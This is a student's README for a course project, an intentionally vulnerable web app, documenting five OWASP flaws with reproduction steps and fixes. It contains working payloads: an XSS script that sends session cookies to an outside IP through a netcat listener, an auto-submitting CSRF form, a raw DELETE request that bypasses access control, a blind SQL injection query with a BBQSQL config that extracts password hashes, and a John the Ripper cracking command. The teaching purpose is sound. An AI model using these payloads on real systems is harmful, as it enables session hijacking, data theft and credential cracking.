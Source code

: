 # Cyber Security Base  - Project I

This is my solution for the first project of the [Cyber Security Base course](https://cybersecuritybase.github.io/). In this project our task is to create a web application that has at least five different flaws from the [OWASP top ten list](https://www.owasp.org/index.php/Top_10_2013-Top_10).

## Setup info
* Web page: http://localhost:8080/
* User accounts:
    1. u1
    2. u2
* Tools needed:
    1. t1
    2. t2


## Flaw 1 - Cross-Site Scripting
**OWASP description**: [A3-Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS))

**Issue**: [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

**Steps to reproduce**:

1. Go to the sign up form to create a new user.
2. In the address field insert:
    ```
    <script>document.write('<img src="http://192.168.0.117:1234/' + document.cookie + '">')</script>
    ```
3. Start a netcat server using the command `nc -lp 1234` on the specified host. When a user opens the attendees page, a request is sent to this server:

    ![Result of XSS](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/XSS_session_cookie.png)
4. We now can take over the session of this user by changing our own session cookie using `document.cookie="JSESSIONID=E0ED84B16865028DF09E522DC8B8DDC8"` in the browser console. This way we are able to steal the session of the admin user when this user logs in.

**Remediation**:

* Escape user input when showing this on a page.
* Make sure that the HTTPOnly cookie flag is set for the session ID.


## Flaw 2 - Cross-Site Request Forgery
**OWASP description**: [A8-Cross-Site Request Forgery](https://www.owasp.org/index.php/Top_10_2013-A8-Cross-Site_Request_Forgery_(CSRF))

**Issue**: [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery)

**Steps to reproduce**:

1. Create an HTML with the following content:
    ```HTML
    <html>
        <body onload="document.forms[0].submit()">
            <form action="http://localhost:8080/profile" method="POST">
                <input type="hidden" name="count" id="count" value="1000" />
                <input type="submit" value="Submit" />    
            </form>
        </body>
    </html>
    ```
2. Host this page somewhere.
3. Login to the application with a user.
4. Go to the url where the CSRF attack page is hosted (e.g. https://benjaminstienlet.github.com/cybersecuritybase-project/csrf_attack.html).
5. The number of attendees for the user that was logged in is now changed to 1000:

    ![Result of CSRF](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/CSRF_result.png)

**Remediation**:

* Verify the same origin using standard headers.
* Use a secure random CSRF token for state changing operations.


## Flaw 3 - Missing Function Level Access Control
**OWASP description**: [A7-Missing Function Level Access Control](https://www.owasp.org/index.php/Top_10_2013-A7-Missing_Function_Level_Access_Control)

**Issue**: Regular users can access a privileged function

**Steps to reproduce**:

1. Login as a normal user and note down your session id
2. Connect to the web server using netcat with the following command: `nc 192.168.0.185 8080`
3. Insert the following HTTP request:

    ```
    DELETE /attendees/John%20Smith HTTP/1.1
    Host: 192.168.0.185:8080
    Cookie: JSESSIONID=6DE506E932836598A6BFCA5FC6427A61
    ```

4. Press enter to submit the request. The user John Smith now is successfully removed by a regular user who should not have these rights.

    ![Result of netcat](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/privileged_function_command.png)

**Remediation**:

* Don't use "presentation layer access control" but also check in the function itself that the authenticated user has the necessary privileges to perform this function.


## Flaw 4 - Injection
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A1-Injection)

**Issue**: [Blind SQL injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

**Steps to reproduce**:

1. Login to the web application.
2. Go to the attendees page.
3. Insert `nothing' OR '1'='1` in the search field. After applying this filter, all items are still shown. This indicates that we can exploit this using SQL injection. We will have to use a blind SQL injection as the result of the query is not printed. I chose for a content-based blind SQL injection, but a time-based injection should also work.
4. We can read the data from the database by doing a binary search on the ASCII value of each character in the database and iterating over all the characters. The base query for this method is:
    ```
    1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET 1, 1, 1)) > 63) --
    ```

    If the list of attendees is shown, the query evaluated to true and the ASCII value of the first character in the Name column for the first row in the Account table is larger than 63. If no attendees are shown, then the query evaluated to false.
5. We can now execute this base query using the tool [BBQSQL](https://github.com/Neohapsis/bbqsql) with the following configuration file:
    ```
    [Request Config]
    url = http://192.168.0.185:8080/attendees
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    cookies = {'JSESSIONID': '19EE58D182C7FE01DC0312AD14172858'}
    data = searchString=${query}
    method = post

    [HTTP Config]
    query = 1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET ${row_index:1}, ${char_index:1}, 1)) ${comparator:>} ${char_val:0}) --
    csv_output_file = bbqsql_output.csv
    technique = binary_search
    comparison_attr = size
    concurrency = 30
    ```
6. This tool gives the following output:

    ![Result of BBQSQL](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

**Remediation**:

* [Parameterized queries](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet#Defense_Option_1:_Prepared_Statements_.28with_Parameterized_Queries.29) can be used as a remediation for this SQL injection.


## Flaw 5 - Sensitive Data Exposure
**OWASP description**: [A6-Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure)

**Issue**: Weak cryptographic algorithm and unsalted hashes used

**Steps to reproduce**:

1. In the previous flaw, we found the user names and hashes of the passwords. Using an [online tool](https://www.onlinehashcrack.com/hash-identification.php) to identify the hash type, we can see that these hashes are probably MD5 hashes.
2. We can try to crack the hashes using the tool 'john the ripper' with the command `john -format=raw-MD5 bbqsql_output.csv`:

    ![Result of john](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

    We could also check an [online reverse lookup](http://md5.gromweb.com/) for the MD5 hashes:

    ![Result of reverse lookup](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/MD5_reverse_lookup.png)

**Remediation**:

* Select a hashing algorithm that has no known vulnerabilities. For example the standard BCrypt algorithm in the Spring framework. The implementation in Spring also uses a random salt per user.

